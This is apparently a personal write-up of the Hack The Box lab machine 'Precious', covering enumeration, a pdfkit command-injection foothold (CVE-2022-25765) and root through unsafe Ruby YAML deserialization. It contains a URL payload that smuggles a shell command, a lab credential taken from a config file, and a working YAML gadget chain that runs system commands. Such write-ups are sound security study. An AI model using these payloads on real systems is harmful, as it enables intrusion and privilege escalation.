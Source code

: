 ```yaml
---
title: "Precious"
date: 23-03-2025
categories: [Linux, Easy]
tags: [Easy, Ruby, Deserialization, RCE, CVE, PDF]
image: https://labs.hackthebox.com/storage/avatars/3adcfd6093f8ddb4dffe8422da6377c8.png
---
```


This machine was quite hard for me. I learned a lot about exploiting ruby data serialization  and finding information inside of pdf files with `exiftool`.

![precious_info_card](/assets/images/precious/Precious.png)

## Enumeration

This machine only has two ports open as shown by the `nmap` scan below
```
# Nmap 7.94SVN scan initiated Sat Mar 15 09:54:17 2025 as: nmap -p22,80 -sCV -Pn -n -oN nmap/precious 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 15 09:54:24 2025 -- 1 IP address (1 host up) scanned in 7.01 seconds
```

The webpage is redirecting us to `http://precious.htb` we can add this to our hosts file and we can now visit the website. The webpage seems very straightforward, it simply takes in a **url** and produces a pdf file with the contents of that website. I ran `fuff` to identify different virtual hosts or directories but there were none therefore the only vector of exploitation is this pdf generator. 

![prcious](/assets/images/precious/Pasted image 20250315095622.png)

The first thing that I tried was inputting a valid website like `nike.com` but that did not work. Following that I set up a listener on port 80 and placed my own IP address to see if I get a connect.  `http://10.10.14.27`

```
sudo nc -lvnp 80
[sudo] password for madaf: 
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.189] 59318
GET / HTTP/1.1
Host: 10.10.14.27
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Following this I tried setting up my own webpage with a simple python script which I used to test the pdf generator. It could print the simple website I generated. I tried using some common file disclosure payloads that are commonly used for pdf generators to try to get files such as `/etc/passwd` but none seemed to work. 

#### PDF Generator libraries

I decided to check `wappalizer` and saw that the website was using Phusion Passenger 6.0.15. Which has support for different languages like Python and Ruby. I decided to intercept a request I made to my own page and saw the following in the headers:

```
HTTP/1.1 200 OK
Content-Type: application/pdf
Content-Length: 4595
Connection: keep-alive
Status: 200 OK
Content-Disposition: attachment; filename="wutmohqrq8opdks6kapw1gukbefusdim.pdf"
Last-Modified: Sat, 15 Mar 2025 11:18:30 GMT
X-Content-Type-Options: nosniff
Date: Sat, 15 Mar 2025 11:18:30 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

We can see that `X_Runtime` indicates that the website is using Ruby as the language. I downloaded of the the pdf's the website generated and used `exiftool` to examine the pdf metadata:

```
ExifTool Version Number         : 12.57
File Name                       : almtmnf8bywbjqzinc8ehve2fjjim6io.pdf
Directory                       : /home/madaf/Downloads
File Size                       : 12 kB
File Modification Date/Time     : 2025:03:15 12:01:03+01:00
File Access Date/Time           : 2025:03:15 12:01:03+01:00
File Inode Change Date/Time     : 2025:03:15 12:01:03+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We can clearly see that the file was generated using the `pdfkit` library with version `0.8.6` a quick google search indicates that this version is vulnerable to remote code execution. 

## Foothold

The aforementioned vulnerability is [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) . We can quickly check if its vulnerable by inputting this payload into the url field: `http://test.local/%20 ping 10.10.14.27 -c 20` We can now use `tcpdump` to try to see if we get ping requests.

```
sudo tcpdump -i tun0
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:09:03.420024 IP 10.10.14.27.55850 > precious.htb.http: Flags [.], ack 2219377380, win 492, options [nop,nop,TS val 2661141076 ecr 3767220373], length 0
13:09:03.433761 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 1, win 501, options [nop,nop,TS val 3767230404 ecr 2661090882], length 0
13:09:08.935335 IP 10.10.14.27.55850 > precious.htb.http: Flags [P.], seq 1:578, ack 1, win 492, options [nop,nop,TS val 2661146591 ecr 3767230404], length 577: HTTP: POST / HTTP/1.1
13:09:08.951009 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 578, win 501, options [nop,nop,TS val 3767235922 ecr 2661146591], length 0
13:09:08.957799 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 1, length 64
13:09:08.957814 IP 10.10.14.27 > precious.htb: ICMP echo reply, id 13907, seq 1, length 64
13:09:09.956038 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 2, length 64
```

We see the post request and following that we see the pings being sent to our IP. This verifies that we have command execution and we can now use [this](https://github.com/UNICORDev/exploit-CVE-2022-25765?) exploit to give us a reverse shell back to our machine.  We get a reverse shell as the user `ruby`.


## Privilege Escalation

We land on the webpage's directory which contains some configuration files but nothing too interesting. I take a look at the home directory and I find that there is one more user, `henry` I also check my own home directory and after a `ls -la` I find a hidden file that contains credentials to that user. 

```
ruby@precious:/home/ruby$ cd .bundle
ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
#### Gaining Root Access

With this new user we are able to run `/usr/bin/ruby /opt/update_dependencies.rb` as root without password. Since the binaries listed have full paths there is not much we can do regarding path abuses but we can take a look inside `/opt/update_dependencies.rb` one common privilege escalation method in this cases is finding a binary inside the executable that does not use absolute paths, this way we can include our own malicious code and execute it as root. 

Inside of `/opt/update_dependencies.rb` the only file without an absolute path is `dependencies.yml` which gets deserialized using `YAML.load(File.read())` 

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

I got stuck here trying to find a payload that would work to grant me root access. I was told to use the following [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) as reference. Using the second payload I was able to read the root flag.

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat root/root.txt
         method_id: :resolve
```